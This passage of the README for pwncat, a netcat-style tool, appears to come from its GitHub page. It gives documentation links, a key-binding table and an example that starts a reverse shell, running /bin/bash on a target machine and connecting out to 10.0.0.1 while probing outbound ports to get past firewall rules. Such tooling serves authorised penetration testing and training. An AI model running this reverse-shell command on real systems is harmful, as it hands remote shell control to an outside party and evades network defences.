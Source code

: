 * API docs can be found here: [pwncat.api.html](https://cytopia.github.io/pwncat/pwncat.api.html)
* Python type coverage can be found here: [pwncat.type.html](https://cytopia.github.io/pwncat/pwncat.type.html)
* HTML man page can be found here: [pwncat.man.html](https://cytopia.github.io/pwncat/pwncat.man.html)
* Raw man page can be found here: [pwncat.1](man/pwncat.1)


## :computer: Usage

### Keys

| Behaviour      | ![Alt][Linux] | ![Alt][MacOS] | ![Alt][Windows] |
|----------------|---------------|---------------|-----------------|
| Quit (SIGINT)  | <kbd>Ctrl</kbd>+<kbd>c</kbd>  | <kbd>Ctrl</kbd>+<kbd>c</kbd> | <kbd>Ctrl</kbd>+<kbd>c</kbd> |
| Quit (SIGQUIT) | <kbd>Ctrl</kbd>+<kbd>\\</kbd> | ? | ? |
| Quit (SIGQUIT) | <kbd>Ctrl</kbd>+<kbd>4</kbd>  | ? | ? |
| Quit STDIN<sup>[1]</sup> | <kbd>Ctrl</kbd>+<kbd>d</kbd>  | <kbd>Ctrl</kbd>+<kbd>d</kbd> | <kbd>Ctrl</kbd>+<kbd>z</kbd> and <kbd>Ctrl</kbd>+<kbd>Enter</kbd> |
| Send (NL)      | <kbd>Ctrl</kbd>+<kbd>j</kbd>  | ? | ? |
| Send (EOL)     | <kbd>Ctrl</kbd>+<kbd>m</kbd>  | ? | ? |
| Send (EOL)     | <kbd>Enter</kbd>              | <kbd>Enter</kbd> | <kbd>Enter</kbd> |

> <sup>[1] Only works when not using `--no-shutdown` and `--keep`. Will then shutdown it's socket for sending, signaling the remote end and EOF on its socket.</sup>

[Linux]: https://raw.githubusercontent.com/cytopia/icons/master/64x64/linux.png "Linux"
[MacOS]: https://raw.githubusercontent.com/cytopia/icons/master/64x64/osx.png "MacOS"
[Windows]: https://raw.githubusercontent.com/cytopia/icons/master/64x64/windows.png "Windows"

### Command line arguments

Type `pwncat -h` or click below to see all available options.

<details><summary><strong>Click here to expand usage</strong></summary></details>


## :bulb: Examples

### Upgrade your shell to interactive


### Port forwarding magic




### Outbound port hopping

If you have no idea what outbound ports are allowed from the target machine, you can instruct
the client (e.g.: in case of a reverse shell) to probe outbound ports endlessly.

```bash
# Reverse shell on target (the client)
# --exec            # The command shell the client should provide
# --reconn          # Instruct it to reconnect endlessly
# --reconn-wait     # Reconnect every 0.1 seconds
# --reconn-robin    # Use these ports to probe for outbount connections

pwncat --exec /bin/bash --reconn --reconn-wait 0.1 --reconn-robin 54-1024 10 10.0.0.1 53
```


[offsec]: https://github.com/cytopia/offsec
[header-fuzz]: https://github.com/cytopia/header-fuzz
[smtp-user-enum]: https://github.com/cytopia/smtp-user-enum
[urlbuster]: https://github.com/cytopia/urlbuster
[pwncat]: https://github.com/cytopia/pwncat
[badchars]: https://github.com/cytopia/badchars
[fuzza]: https://github.com/cytopia/fuzza